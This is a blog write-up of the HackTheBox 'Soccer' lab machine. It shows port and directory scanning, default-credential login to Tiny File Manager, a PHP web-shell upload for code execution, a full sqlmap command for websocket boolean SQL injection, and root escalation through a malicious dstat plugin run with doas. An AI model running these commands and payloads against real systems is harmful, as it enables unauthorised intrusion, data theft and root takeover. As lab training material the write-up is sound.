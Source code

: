 ```yaml
---
layout: post
title: "Soccer"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, linux, web, privesc]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap

```bash
sudo nmap -sC -sV -p- -oN soccer -T4 10.10.11.194
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224700.png)

starting with the web port 80

nothing interesting at the main page let's fuzz
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224828.png)

I found a cms tiny
```bash
ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224903.png)

we have tiny file manager
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224934.png)

a quick google search got as the default creds `admin admin@123`
we can upload anything we want , so let's upload a php file and get rce 

I used [phpbash](https://github.com/Arrexel/phpbash)
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225229.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225251.png)

nothing Interesting , I will run `linpeas`

we got another subdomain , listening on port 80 
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225701.png)

after adding it to our /etc/hosts file  
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225753.png)

same website but new functionality 

let's create new account and login into the app 

we got this `/check` page , it seems like it's check for a ticket if it's available in the database 

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230140.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230153.png)

the weird thing is I try to intercept this request but I can't catch it 
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230353.png)

if we want to catch web sockets , we need to start intercepting from the beginning , like from the sign-in part that's at least what I learned from watching ippsec solving it 

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230529.png)

there's a  boolean injection via this websocket , if the query i correct returns Exists else return doesn't exist
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230732.png)
we can use `sqlmap` to exploit it 
```bash
sqlmap -u ws://soc-player.soccer.htb:9091  --data '{"id":"80989"}' --dbms  mysql --risk 3 --level 5 --batch --dump --thread 10
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240524230947.png)

we can ssh as `player`
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231335.png)

```bash
find / -perm -4000 2>/dev/null
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231328.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231422.png)


small research about `doas` seems like small sudo  and we need to find a `doas.conf` file so we now which command is running 

we can run `dstat`` as root
`cat /usr/local/etc/doas.conf`
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231722.png)
[gtfobins](https://gtfobins.github.io/gtfobins/dstat/)
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231758.png)

```bash
echo 'import os; os.execv("/bin/bash", ["bash"])' > /usr/local/share/dstat/dstat_d0s3nt.py`
doas -u root /usr/bin/dstat --d0s3nt
```

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524232504.png)